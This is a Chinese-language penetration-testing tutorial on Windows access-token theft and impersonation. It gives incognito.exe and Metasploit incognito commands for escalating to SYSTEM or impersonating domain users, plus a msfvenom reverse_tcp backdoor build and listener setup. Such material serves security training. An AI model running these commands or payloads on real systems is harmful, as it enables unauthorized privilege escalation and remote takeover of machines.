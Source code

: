 # 内网安全——Token的窃取与利用

## 令牌

1. 令牌是系统的临时密钥，相当于账号和密码，用来决定是否允许这次请求和判断是隶属于哪一用户的，它允许你在不提供密码和其他凭证的前提下，访问网络和系统资源这些令牌将持续存在于系统中，除非系统重新启动。令牌最大的特点是随机性，不可预测，黑客或软件无法猜测出令牌
2. 假冒令牌可以假冒网络中的另一个用户进行各类操作。所以当一个攻击者需要域管理员操作权限的时候，需要通过假冒域管理员的令牌进行攻击
3. 令牌种类
   - 访问令牌：表示访问控制操作主体的系统对象
   - 会话令牌：是交互会话中唯一的身份标识符
   - 密保令牌：又叫做认证令牌或硬件令牌，是一种计算机身份校验的物理设备，如U盾

4. windows的AccessToken有两种类型
   - Delegation Token：授权令牌，它支持交互式会话登录
   - Impresonation Token：模拟令牌，它是非交互的会话
   - 注意，两种token只在系统重启后清除，具有Delegation Token的用户在注销后，该Token将变成Impresonation Token，依旧有效

## AccessToken的窃取与利用

1. AccessToken的窃取与利用需要administrator管理员权限，也就是需要提权
2. AccessToken窃取方法
   - incognito.exe程序
   - InvokeTokenManipulat.ps1脚本
   - MSF的incognito模块

3. [incognito](https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip)

   - AccessToken列举

     ``` powershell
     incognito.exelist_tokens-u
     ```

   - 操作：模拟其他用户的令牌（复制token）如果要使用AccessToken模拟其他用户，可以使用命令

     ``` powershell
     incognito.exe execute -c "完整的Token名" cmd.exe
     ```

     例如：模拟system权限用户（提权至system）

     ``` powershell
     incognito.exe execute -c "NTAUTHORITY\SYSTEM" cmd.exe 
     ```

     降权至当前用户

     ``` powershell
     incognito.exe execute -c "当前用户token" cmd.exe
     ```

     获取域普通用户

     ``` powershell
     incognito.exe execute -c "moonsec\test" cmd.exe
     ```

4. MSF的incognito模块

   ``` powershell
   use incognito #加载 incognito
   list_tokens -u #列出 AccessToken
   getuid #查看当前 token
   impersonate_token "NT AUTHORITY\SYSTEM" #模拟 system 用户，getsystem 命令即实现了该命令。如果要模拟其他用户，将 token 名改为其他用户即可
   steal_token 1252 #从进程窃取 token
   getsystem #提升至 system 权限
   rev2self #返回到之前的 AccessToken 权限
   ```

## MSF令牌实战

1. msf 生成后门

   ``` powershell
   msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=6666 LHOST=192.168.0.115 -f exe -o msf.exe
   ```

2. 监听端口

   ``` powershell
   msfconsole
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set lhost 192.168.0.115
   set lport 6666
   exploit
   use incognito #进入 incognito 模块
   list_tokens -u 
   ```

3. 列出两种令牌
   - Delegation Token：也就是授权令牌，它支持交互式登录(例如可以通过远程桌面登录访问) 
   - Impresonation Token：模拟令牌，它是非交互的会话。

4. 伪造令牌

   ``` powershell
   impersonate_token 12SERVER-01\Administrator  #假冒 12server-01\adminstrator 的令牌
   impersonate_token moonsec\\test #假冒 moonsec\test的令牌
   impersonate_token "NT AUTHORITY\SYSTEM" #假冒 System 的令牌
   ```

5. 除了可以伪造令牌 也可以从进程里窃取令牌 首先使用 `ps `命令列出进程 查看进程用户使用 `steal_token pid `窃取令牌就有对应的权限。

6. 从进程窃取令牌

   ``` powershell
   steal_token PID
   ```

7. 返回之前的 token

   ``` powershell
   rev2self
   ```